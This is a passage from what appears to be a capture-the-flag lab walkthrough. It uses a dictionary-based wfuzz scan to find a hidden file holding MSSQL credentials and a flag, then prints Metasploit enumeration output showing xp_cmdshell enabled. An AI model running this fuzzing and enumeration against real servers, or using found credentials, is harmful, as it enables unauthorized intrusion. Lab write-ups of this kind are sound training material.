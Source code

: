 We found a file that starts with `poo_co`, but we need to get the rest of the filename using some fuzzing.

We'll take the english dictionary and keep only the words that start with `co`, then use wfuzz to scan the directory:

```
root@kali:~/SecLists# egrep "^co" words.txt > ../co.txt
root@kali:~/SecLists# cd ..
root@kali:~# wfuzz -z file,co.txt --hc 404 http://10.13.38.11//dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt
```

Success! There's a file called `poo_connection.txt` in the folder containg our first flag and MSSQL credentials:

```
SERVER=10.13.38.11
USERID=external_user
DBNAME=POO_PUBLIC
USERPWD=#p00Public3xt3rnalUs3r#

Flag : POO{fcfb0767f5bd3c...}
```

First flag: `POO{fcfb0767f5bd3c...}`

## MSSQL enumeration

There's no CVE on this server, it's running the latest patched MSSQL.

```
msf auxiliary(admin/mssql/mssql_enum) > run

[*] 10.13.38.11:1433 - Running MS SQL Server Enumeration...
[*] 10.13.38.11:1433 - Version:
[*]	Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) 
[*]		Aug 22 2017 17:04:49 
[*]		Copyright (C) 2017 Microsoft Corporation
[*]		Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
[*] 10.13.38.11:1433 - Configuration Parameters:
[*] 10.13.38.11:1433 - 	C2 Audit Mode is Not Enabled
[*] 10.13.38.11:1433 - 	xp_cmdshell is Enabled
[*] 10.13.38.11:1433 - 	remote access is Enabled
[*] 10.13.38.11:1433 - 	allow updates is Not Enabled
[*] 10.13.38.11:1433 - 	Database Mail XPs is Not Enabled
[*] 10.13.38.11:1433 - 	Ole Automation Procedures are Enabled
[*] 10.13.38.11:1433 - Databases on the server:
[*] 10.13.38.11:1433 - 	Database name:master
[*] 10.13.38.11:1433 - 	Database Files for master:
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\master.mdf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\mastlog.ldf
[*] 10.13.38.11:1433 - 	Database name:tempdb
[*] 10.13.38.11:1433 - 	Database Files for tempdb:
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb.mdf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\templog.ldf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb_mssql_2.ndf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb_mssql_3.ndf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb_mssql_4.ndf
```
